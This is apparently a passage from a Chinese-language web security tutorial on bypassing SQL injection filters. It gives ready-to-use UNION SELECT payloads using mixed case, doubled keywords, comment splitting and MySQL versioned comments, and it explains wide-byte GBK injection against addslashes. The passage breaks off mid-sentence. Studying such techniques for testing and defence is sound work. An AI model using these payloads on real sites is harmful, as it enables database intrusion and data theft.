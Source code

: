 

**绕过技巧**

**绕过单引号**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014399c36b6b83fab5.png)

**大小写绕过**

```
?id=1+UnIoN+SeLecT+1,2,3--
```

**替换绕过**

```
?id=1+UNunionION+SEselectLECT+1,2,3--
```

**注释绕过**

```
?id=1+un/**/ion+se/**/lect+1,2,3--
```

**特殊嵌入绕过**

```
?id=1/*!UnIoN*/SeLecT+1,2,3--
```

**宽字节注入**

SQL注入中的宽字节国内最常使用的gbk编码，这种方式主要是绕过addslashes等对特殊字符进行转移的绕过。反斜杠()的十六进制为%5c，在你输入%bf%27时，函数遇到单引号自动转移加入，此时变为%bf%5c%27，%bf%5c在gbk中变为一个宽字符“縗”。%bf那个位置可以是%81-%fe中间的任何字符。不止在sql注入中，宽字符注入在很多地方都可以应用。

**MySQL版本号字符**

Examples:



```
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+<br>SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

这样的查询语句是可以执行的，我理解为类似Python中第一行注释指定解析器一样#!/bin/sh

对于小于或等于版本号的语句就会执行

例如目前的Mysql版本为5.7.17那么/!50717/及其以下的语句即可执行

**字符编码绕过**

前段时间看到ph师傅的博客是讨论mysql字符编码的文章，大概意思如下，原文在[这里 ](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)

当出现有以下代码时，指设置了字符编码为utf-8，但并不是全部为utf-8，而在具体的转换过程中会出现意外的情况，具体可以看ph师傅的文章

```
$mysqli-&gt;query("set names utf8");
```

在sql查询中
